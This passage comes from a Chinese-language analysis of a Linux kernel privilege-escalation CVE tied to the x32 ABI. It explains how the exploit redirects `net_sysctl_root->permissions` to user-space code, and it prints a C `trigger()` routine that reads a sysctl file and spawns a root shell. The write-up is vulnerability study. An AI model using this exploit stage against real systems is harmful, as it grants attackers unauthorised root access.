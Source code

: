 执行完毕后，提权程序成功将`permissions`指向了填充了提权代码的用户空间中。注意：这里必须从高位开始处理，由于各个程序是并行处理的，因此无法准确的保证timeout值和sleep值完全匹配，又由于timeout值的tv_sec>=0，因此只要从高位依次处理就可以避免借位的情况发生。这里也是结构体选取的条件之一。

由于`0xff*3 = 765`,因此该提权程序需要13分钟才能将`permissions`指向的地址值变成用户空间的地址值。

万事具备，只欠东风。只要用户调用修改后的`net_sysctl_root->permissions`即可。

```
void trigger() {
    open("/proc/sys/net/core/somaxconn",O_RDONLY);

    if(getuid() != 0) {
        fprintf(stderr,"not root, ya blew it!\n");
        exit(-1);
    }

    fprintf(stderr,"w00p w00p!\n");
    system("/bin/sh -i");
}

```

到此，该CVE分析完毕。不得不说该CVE的原理虽然比较简单，但实现最后利用修过的手法还是非常巧妙的，值得学习。

**参考**

1、[http://en.wikipedia.org/wiki/X32_ABI](http://en.wikipedia.org/wiki/X32_ABI)